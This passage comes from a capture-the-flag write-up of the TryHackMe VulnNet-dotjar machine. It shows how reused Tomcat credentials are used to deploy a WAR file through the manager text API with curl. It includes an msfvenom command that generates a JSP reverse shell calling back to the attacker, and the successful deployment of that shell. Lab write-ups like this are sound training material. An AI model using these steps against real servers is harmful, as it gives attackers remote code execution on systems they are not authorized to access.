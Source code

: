 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotjar/images/Pasted%20image%2020230123135757.png)

It's correct, but the `webdev` account doesn't have access to the manager app.

**How about the "Host Manager"?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotjar/images/Pasted%20image%2020230123135913.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotjar/images/Pasted%20image%2020230123135929.png)

It worked!!

However, nothing we can do... As we can't deploy a `.war` file to execute code.

## Initial Foothold

Let's take a step back.

In the Ghostcat LFI exploit, we found `webdev` credentials, and it says:

> "GUI access is disabled for security reasons."

Which means we couldn't access to the manager app.

After fumbling around, I found that **although we don't have access to the GUI one, we can still deploy a `.war` file to the manager app via `curl`!**

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#limitations), we can do this via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotjar/images/Pasted%20image%2020230123144004.png)

```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```

Let's do that!

- Generating a WAR reverse shell via `msfvenom`:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:41:07(HKT)]
└> msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=443 -f war -o revshell.war
```

- Deploy the WAR reverse shell via `curl`:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:41:43(HKT)]
└> curl --upload-file revshell.war -u 'webdev:{Redacted}' 'http://vulnnet-dotjar.thm:8080/manager/text/deploy?path=/revshell'
OK - Deployed application at context path [/revshell]
```
